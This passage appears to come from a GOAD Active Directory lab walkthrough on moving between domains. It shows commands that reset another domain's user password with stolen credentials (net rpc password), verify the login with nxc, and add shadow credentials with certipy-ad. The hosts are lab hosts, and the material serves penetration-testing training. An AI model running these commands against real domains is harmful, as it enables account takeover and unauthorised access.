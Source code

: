 ![screenshot](pics/domain_paths.png)


- On the GOAD lab you will find some specifics groups to pass from one domain to the other.

> Note that bloodhound also have buttons to research foreign groups and users directly in the interface.

- As you already have done the acl part previously you will easily find the way to exploit that. (shadow credentials/target kerberoasting/change password/…), but since it is cross domain we will do the first :)
    
- Sevenkingdoms to essos : group spys
    

- To do that just pick a user from the small council (by example petyer.baelish:@littlefinger@) and exploit with the spy group
```
net rpc password jorah.mormont 'P@ssword123' -U sevenkingdoms.local/petyer.baelish%@littlefinger@ -S meereen.essos.local
```

- And verify
```
nxc smb 192.168.56.12 -u jorah.mormont -p 'P@ssword123' -d essos.local
```
 ![screenshot](pics/change_pw_jorah.png)
 

- We can also to that with shadow credentials (but the auto will not work here, we will have to do that with two steps)
```
certipy-ad shadow add -u petyer.baelish@sevenkingdoms.local -p '@littlefinger@' -dc-ip 192.168.56.12 -target meereen.essos.local -account 'jorah.mormont'
```
![screenshot](pics/certipy1.png)
